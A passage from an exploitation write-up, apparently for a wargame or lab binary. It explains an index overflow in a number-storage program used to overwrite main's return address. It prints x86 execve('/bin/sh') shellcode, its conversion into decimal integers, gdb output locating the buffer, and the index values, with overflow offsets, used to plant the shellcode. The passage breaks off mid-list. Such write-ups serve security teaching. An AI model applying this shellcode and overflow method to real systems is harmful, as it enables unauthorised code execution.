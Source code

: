 We have successfully exploited the overflow now we can overwrite the `main`'s return address, next we have to craft a `shellcode` and insert it in the program's memory

Because we can only insert `unsigned int` into the storage we will have insert the shellcode 4 bytes by 4 bytes so let's craft a shellcode that has 4*n bytes

Here is the same simple shellcode we used before which only performs `execve("/bin/sh")` and is 28 bytes long

```
\x90\x31\xc0\x31\xc9\x31\xd2\x31\xff\x31\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

We have to divide it into 4 bytes parts convert them in little endian and convert it into a decimal number

```
\x90\x31\xc0\x31 -> 31c03190 -> 834679184
\xc9\x31\xd2\x31 -> 31d231c9 -> 835858889
\xff\x31\xf6\x52 -> 52f631ff -> 1391866367
\x68\x2f\x2f\x73 -> 732f2f68 -> 1932472168
\x68\x68\x2f\x62 -> 622f6868 -> 1647274088
\x69\x6e\x89\xe3 -> e3896e69 -> 3817434729
\xb0\x0b\xcd\x80 -> 80cd0bb0 -> 2160921520
```

Now we have to find the starting address of the buffer using `gdb`

```
    0x080488e7 <+452>:   mov    %eax,(%esp)
    0x080488ea <+455>:   call   0x8048630 <store_number>
```

We can see the buffer address is moved from eax to esp

Let's set a breakpoint and read the registers

```
(gdb) b*0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) info reg
eax     0xffffd554      -10924
```

The buffer address seems to be `0xffffd554` let's insert our shellcode and inspect the address to confim that the insertion was successfull

We have to use the overflow trick to insert a value every 3 index:

```
Number: 834679184
Index: 1073741824 (1073741824 + 0 = index 0)

Number: 835858889
Index: 1

Number: 1391866367
Index: 2

Number: 1932472168
Index: 1073741827 (1073741824 + 3 = index 3)

Number: 1647274088
Index: 4

Number: 3817434729
```